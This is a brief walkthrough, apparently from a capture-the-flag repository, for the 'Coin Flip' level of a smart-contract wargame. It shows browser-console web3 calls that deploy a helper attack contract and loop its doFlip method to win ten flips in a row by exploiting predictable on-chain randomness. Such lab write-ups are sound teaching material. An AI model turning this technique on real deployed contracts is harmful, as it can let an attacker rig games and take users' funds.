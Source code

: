 # Coin flip

Type in the browser console:

```
> web3.utils.toNumber(await contract.consecutiveWins())
0
```

Deploy a contract with Remix using attached solidity files (interfaces/[ICoinFlip.sol](./ICoinFlip.sol) and contracts/[CoinFlipHack.sol](./CoinFlipHack.sol)).

Copy the ABI from Remix and run the following code in the browser console:

```
var abi = [
    {
        "inputs": [],
        "name": "doFlip",
        "outputs": [],
        "stateMutability": "nonpayable",
        "type": "function"
    },
    {
        "inputs": [
            {
                "internalType": "address",
                "name": "_coinFlipAddress",
                "type": "address"
            }
        ],
        "stateMutability": "nonpayable",
        "type": "constructor"
    }
];
var hackAddress = "*redacted*";
var hack = new web3.eth.Contract(abi, hackAddress);

for (var i = 0; i < 10; i++) {
    await hack.methods.doFlip().send({ from: player });
}
```

Type in the browser console:

```
> web3.utils.toNumber(await contract.consecutiveWins())
10
```

Level finished.
